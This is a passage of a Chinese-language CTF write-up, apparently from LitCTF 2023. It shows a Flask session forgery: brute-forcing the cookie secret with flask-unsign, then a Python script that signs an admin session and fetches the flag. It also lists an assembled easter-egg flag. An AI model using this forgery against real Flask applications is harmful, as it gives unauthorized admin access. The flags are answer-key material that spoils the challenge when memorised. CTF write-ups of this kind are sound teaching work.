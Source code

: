 ### 12. Flag点击就送！

flask session伪造

```
$cat pass.txt
LitCTF2023
LitCTF
```

```
$ flask-unsign --unsign --cookie "eyJuYW1lIjoiMSJ9.ZF_Bhw.mawKGPKlVL8_XkcZE2bcVHe6pOE" -w .\pass.txt --no-literal-eval
[*] Session decodes to: {'name': '1'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 2 attempts
b'LitCTF'
```

```python
import requests
import string
import subprocess

SECRET_KEY = "LitCTF"

cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', '{\'name\': \'admin\'}', '--secret', SECRET_KEY])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://node5.anna.nssctf.cn:28403/flag', cookies=cookie)

print(response.text)
```

![image-20230514010153852](Web_Writeup/image-20230514010153852.png)

### 13. 彩蛋

```
LitCTF{First_t0_The_k3y! (1/?) 
_S0_ne3t? (2/?)
_R3ady_Pl4yer_000ne_ (3/?)
F1rst_to_Th3_eggggggggg!} (4/4)
```

详情见上👆